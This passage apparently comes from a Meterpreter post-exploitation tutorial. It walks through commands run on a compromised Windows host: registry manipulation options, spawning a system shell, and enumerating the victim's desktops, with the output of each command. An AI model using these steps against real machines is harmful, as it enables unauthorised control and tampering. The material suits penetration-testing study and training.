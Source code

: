 ``` plain
Windows IP Configuration

Successfully flushed the DNS Resolver Cache.
```

If you're feeling brave, you can mess around, uhm, interact with the target registry:

``` plain
meterpreter > reg -h
Usage: reg [command] [options]

Interact with the target machine's registry.

OPTIONS:

    -d <opt>  The data to store in the registry value.
    -h        Help menu.
    -k <opt>  The registry key path (E.g. HKLM\Software\Foo).
    -r <opt>  The remote machine name to connect to (with current process credentials
    -t <opt>  The registry value type (E.g. REG_SZ).
    -v <opt>  The registry value name (E.g. Stuff).
    -w        Set KEY_WOW64 flag, valid values [32|64].

COMMANDS:

    enumkey	Enumerate the supplied registry key [-k <key>]
    createkey	Create the supplied registry key  [-k <key>]
    deletekey	Delete the supplied registry key  [-k <key>]
    queryclass Queries the class of the supplied key [-k <key>]
    setval	Set a registry value [-k <key> -v <val> -d <data>]
    deleteval	Delete the supplied registry value [-k <key> -v <val>]
    queryval	Queries the data contents of a value [-k <key> -v <val>]
```

To leverage more Windows-specific functionality, you can choose to spawn a system shell and do your work from there:

``` plain
meterpreter > shell
Process 2368 created.
Channel 5 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

### User interface commands

We can interact with various components of the Windows GUI. First, let's enumerate the available desktops and get the current one:

``` plain
meterpreter > enumdesktops
Enumerating all accessible desktops

Desktops
========

    Session  Station  Name
    -------  -------  ----
    1        WinSta0  Default
    1        WinSta0  Disconnect
    1        WinSta0  Winlogon

meterpreter > getdesktop
```